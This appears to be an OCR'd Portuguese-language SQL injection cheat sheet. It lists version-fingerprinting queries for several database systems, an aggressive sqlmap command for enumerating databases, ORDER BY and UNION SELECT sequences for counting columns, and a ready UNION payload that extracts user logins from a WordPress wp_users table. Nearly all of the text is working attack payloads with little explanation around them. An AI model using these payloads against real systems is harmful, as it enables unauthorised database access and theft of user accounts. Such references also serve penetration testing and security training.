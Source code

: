  Error based

Nesse cenário, geralmente o banco de dados já retorna seu nome e versão

 Blind

Payloads

Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
    version()

## Databases enumeration

Saber qual a base que estamos utilizando no momento.

	sqlmap -r req.txt -p "estado" --level=5 --risk=3 --threads 3 --dbms=mysql --os=linux --hex --dbs

## Número de colunas

Saber o número de colunas.

    order by 1
    order by 2
    order by 3
    .
    .
    .
    order by 15 # and so on

ou 

    union select 1 from dual--
    union select 1,2 from dual--
    ...
    union select 1,2,3,4,5,6,7,8,9 from dual--
and so on


## User enumeration

    ["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]

Saber qual usuário que estamos logados no banco de dados:

### mysql/mariadb

    current_user()

### Oracle

    union select null,user,null from dual--
